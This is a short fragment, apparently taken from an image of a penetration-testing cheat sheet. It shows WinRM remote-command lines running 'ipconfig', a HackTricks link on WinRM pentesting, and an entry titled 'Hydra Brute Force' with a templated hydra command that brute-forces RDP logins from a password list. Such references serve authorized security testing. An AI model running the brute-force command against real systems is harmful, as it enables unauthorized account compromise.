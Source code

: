 ```
    print(s.run_cmd('ipconfig'))
    print(s.run_ps('ipconfig'))

    https://book.hacktricks.xyz/pentesting/pentesting-winrm

Entry_2:
  Name: Hydra Brute Force
  Description: Need User
  Command: hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} rdp://{IP}
```
